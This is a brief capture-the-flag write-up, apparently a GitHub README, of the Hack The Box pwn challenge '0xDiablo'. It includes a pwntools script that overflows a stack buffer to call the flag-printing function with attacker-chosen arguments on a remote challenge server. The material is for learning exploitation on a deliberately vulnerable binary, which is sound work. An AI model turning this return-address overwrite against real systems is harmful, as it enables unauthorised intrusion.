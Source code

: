 ##0xDiablo

>> This is the second pwn challenge in hack the box
>> Using ghidra you'll see the function that is printing out the flag should be passed to argurments to it.Which are later compared and if the condition is true the flag is printed .

Here's my script and approach to solving the challenge.

```#!/usr/bin/env python3

from pwn import *

elf = ELF("./vuln")
context.update(arch="i386")
p = remote('159.65.53.42', '30458')
#p = elf.process()
payload = b'A'*188
payload += p32(0x80491e2)
payload += b'\x90\x90\x90\x90'
payload += p32(0xdeadbeef)
payload += p32(0xc0ded00d)

print(p.recvline())
p.sendline(payload)
print(p.recvline())
p.interactive()
```
